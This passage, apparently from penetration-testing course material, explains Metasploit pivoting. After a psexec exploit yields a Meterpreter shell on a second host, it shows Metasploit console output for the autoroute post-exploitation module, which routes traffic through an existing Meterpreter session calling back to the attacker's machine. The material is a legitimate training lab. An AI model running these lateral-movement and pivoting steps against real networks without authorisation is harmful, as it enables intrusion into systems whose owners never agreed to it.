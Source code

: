 > Listing 79 - Launching the psexec exploit module

Listing 79 shows that we successfully used the *psexec* exploit module to obtain a Meterpreter shell on the second target via the compromised machine.

As an alternative to adding routes manually, we can use the *autoroute* post-exploitation module to set up pivot routes through an existing Meterpreter session automatically. To demonstrate the usage of this module, we first need to remove the route we set manually. Let's terminate the Meterpreter session created through the *psexec* module and remove all routes with **route flush**.

Now the only session left is the Meterpreter session created by executing **met.exe** as user *luiza*. In addition, the result of **route print** states that there are no routes defined. Next, let's activate the module *multi/manage/autoroute* in which we must set the session ID as value for the option *SESSION*. Then, let's enter **run** to launch the module.

```
msf6 exploit(windows/smb/psexec) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  12         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.119.4:443 -> 127.0.0.1 ()

msf6 post(multi/manage/autoroute) > set session 12
